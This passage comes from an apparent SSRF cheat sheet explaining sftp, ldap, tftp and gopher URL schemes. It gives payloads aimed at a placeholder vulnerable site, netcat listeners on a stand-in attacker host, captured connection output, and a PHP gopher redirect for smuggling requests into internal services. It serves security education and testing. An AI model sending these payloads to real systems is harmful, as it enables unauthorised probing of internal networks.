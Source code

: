         evil.com:$ nc -lvp 1337
        Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 31126)
        CLIENT libcurl 7.40.0
        ```
- SFTP:
    - Sftp stands for SSH File Transfer Protocol, or Secure File Transfer Protocol, is a separate protocol packaged with SSH that works in a similar way over a secure connection.
        ```php
       vulnerablesite.com/file/?url=sftp://evil.com:1337/

        evil.com:$ nc -lvp 1337
        Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 37146)
        SSH-2.0-libssh2_1.4.2
        ```

- LDAP:
    - LDAP stands for Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.
    - `ldap://` or `ldaps://` or `ldapi://`
        ```php
        vulnerablesite.com/file/url=ldap://localhost:1337/%0astats%0aquit
        vulnerablesite.com/file/?url=ldaps://localhost:1337/%0astats%0aquit
        vulnerablesite.com/file/?url=ldapi://localhost:1337/%0astats%0aquit
        ```
        
-  TFTP:
    - Trivial File Transfer Protocol is a simple lockstep File Transfer Protocol which allows a client to get a file from or put a file onto a remote host
        ```php
        vulnerablesite.com/file/?url=tftp://evil.com:1337/TESTUDPPACKET

        evil.com:# nc -lvup 1337
        Listening on [0.0.0.0] (family 0, port 1337)
        TESTUDPPACKEToctettsize0blksize512timeout3
        ```
- GOPHER:
    - Gopher, is a distributed document delivery service. It allows users to explore, search and retrieve information residing on different locations in a seamless fashion.
    - Using this protocol you can specify the ip, port and bytes you want the listener to send. Then, you can basically exploit a SSRF to communicate with any TCP server (but you      need to know how to talk to the service first).
    - Fortunately, you can use https://github.com/tarunkant/Gopherus to already create payloads for several services.
        ```php
        vulnerablesite.com/file/?url=http://attacker.com/gopher.phpgopher.php (host it on acttacker.com):-
        <?php
           header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');
        ?>

        evil.com:# nc -lvp 1337
        Listening on [0.0.0.0] (family 0, port 1337)
        Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 49398)
        Hi
        ssrf
        test
        ```
    - Gopher is classified as a universal protocol, through gopher the attacker can do smuggling to other protocols, besides that gopher also supports the use of newline (\r\n) so     that even though the requestster is not vulnerable to CRLF Injection, the attacker can still perform CRLF Injection because Gopher does support multiline requests.<br></br>
   
